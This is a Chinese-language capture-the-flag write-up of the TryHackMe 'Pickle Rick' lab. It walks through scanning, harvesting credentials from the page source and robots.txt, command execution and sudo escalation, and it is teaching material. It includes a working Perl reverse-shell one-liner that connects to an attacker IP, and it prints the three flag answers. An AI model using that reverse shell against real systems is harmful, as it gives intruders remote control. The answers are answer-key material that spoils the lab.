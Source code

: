 # Pickle Rick-练习

TryHackMe实验房间链接：https://tryhackme.com/room/picklerick

## 任务目标

找到3个成分，将帮助瑞克制作他的药水，把自己从一个泡菜变回人类。

目标地址[https:/MACHINE-IP.p.thmlabs.com](https://10-10-253-251.p.thmlabs.com/) 此处为：https://10-10-253-251.p.thmlabs.com/

## 实践操作

```
端口扫描
nmap -T4 -sC -sV -p- 10.10.253.251  
```

![image-20220927120845431](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927120845431.png)

> 目标开放了两个端口：22/tcp ssh服务 80/tcp http服务

访问目标网站的http服务，查看网站源代码，获取到关于用户名的提示：

![image-20220927121045775](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927121045775.png)

> 用户名为：R1ckRul3s

```
目录和文件扫描
gobuster dir -u http://10.10.253.251 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,js,py
```

![image-20220927122325445](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927122325445.png)

> 扫描到
>
> /index.html
>
> /login.php
>
> /assets
>
> /portal.php
>
> /robots.txt

去目标站点访问以上页面和文件：

```
index.html是首页，和之前访问网站时的默认页面一样，
login.php是登陆页面（这个要关注一下），
assets目录下有一些网站资源文件（看了一下没啥特别的），
portal.php访问时会自动跳转到之前的login.php页面，估计要登陆后才能看到，
robot.txt文件有一串字符为Wubbalubbadubdub，可能是登陆密码。
```

![image-20220927123458547](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123458547.png)

![image-20220927123534743](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123534743.png)

![image-20220927123419683](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927123419683.png)

在登陆页面尝试使用之前得到的用户名以及在robots文件中得到的字符进行登陆，发现能够登陆成功，并给出一个命令执行面板：

![image-20220927124227553](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124227553.png)

利用命令面板，输入命令查找文件信息，找到第一个flag（无法通过cat命令查看，但可通过url路径进行访问）：

![image-20220927124643763](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124643763.png)

![image-20220927124733364](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927124733364.png)

> 第一个flag是：mr. meeseek hair

继续探索命令面板，第一次使用ls命令还看到了一些其他文件，现在尝试访问一下，denied.php是一个被禁止访问的页面，clue.txt提示我们在文件系统中查找其他成分：

![image-20220927125210820](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927125210820.png)

利用网站所提供的命令面板建立反向shell（这里试了很多语言的反向shell，发现Perl语言的shell可行），首先在攻击机终端建立监听器，查看该服务器是否支持Perl（命令：which Perl），再执行Perl的反向shell命令：

![image-20220927131746063](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927131746063.png)

反向shell命令内容参考（修改ip、端口和攻击机匹配）：https://github.com/security-cheatsheet/reverse-shell-cheatsheet

```
perl -e 'use Socket;$i="10.14.30.69";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20220927133646735](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133646735.png)

成功建立反向shell，查找flag即可，第一个flag我们已经知道 我们找其他的（当前目录没有目标flag时，尝试找/home /root等关键目录）：

![image-20220927133924593](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927133924593.png)

![image-20220927134805181](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927134805181.png)

> 第二个flag是：1 jerry tear

> 上图中的 cat 'second ingredients' 之所以加单引号是因为该名称中间存在空格
>
> 如果不加引号 则只能识别到second而不是second ingredients
>
> 也可以尝试用其他方式处理：second\ ingredients或者"second ingredients"

尝试cd /root，发现无法移动到/root目录下，

输入sudo -l 列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户：

![image-20220927135922502](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135922502.png)

![image-20220927135847160](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927135847160.png)

> 第三个flag是：fleeb juice

关于第二个flag和第三个flag的其他解法

利用登陆之后网页所提供的命令面板：

```
输入ls会显示当前网站根目录下的目录及文件
输入sudo -l列出目前用户可执行与无法执行的指令，发现我们可以通过sudo免密码使用root用户

此时，可以使用sudo ls命令找到/home目录以及/root下的flag文件，
对于/home目录，也可以通过组合命令（cd /home;ls;pwd、cd /home/rick/;ls;pwd）去找flag文件   

如果想通过网站url访问flag文件内容，可以使用sudo cp命令复制flag文件到网站根目录，涉及的命令如下：
sudo ls /home
sudo ls /home/rick/
sudo cp /home/rick/second\ ingredients ./second.txt   
sudo ls /root
sudo cp /root/3rd.txt . 

如果想直接在网页的命令面板界面查看flag内容，可以使用以下命令（当然前提还是要先找到flag文件的位置）：
less /home/rick/second\ ingredients
sudo less /root/3rd.txt
```

![image-20220927143427676](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143427676.png)

![image-20220927143605462](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927143605462.png)

![image-20220927151113944](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151113944.png)

![image-20220927151156861](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927151156861.png)

> 关于less命令：less命令 的作用与more十分相似，都可以用来浏览文字档案的内容，不同的是less命令允许用户向前或向后浏览文件，而more命令只能向前浏览。

## 完整答案

![image-20220927140953884](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20220927140953884.png)
